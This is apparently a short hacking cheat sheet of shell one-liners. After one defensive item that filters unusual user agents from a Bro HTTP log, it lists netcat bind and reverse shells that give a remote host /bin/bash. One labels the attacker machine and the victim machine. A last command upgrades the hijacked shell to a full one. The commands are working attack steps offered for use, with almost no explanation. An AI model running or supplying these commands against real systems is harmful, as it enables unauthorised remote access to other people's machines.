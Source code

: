 # cheatsheet for hacking

### uncommon http user agents

cat http.log | bro-cut user_agent | sort | uniq | grep -vi -e ^mozilla -e ^opera -e ^microsoft > uncommon_user_agents.txt

### reverse shell to a local port

start shell on a port

    nc -l -p 1234 -e /bin/bash

get access to that reverse shell from another server

    nc -vvn 192.168.10.11 1234

### reverse shell to a remote server port

attacker machine

    nc -lvp 443

victim machine

    nc -nv 192.168.10.10 443 -e /bin/bash

start command prompt (get a full shell) in a reverse hacked shell

    script -qc /bin/bash /dev/null
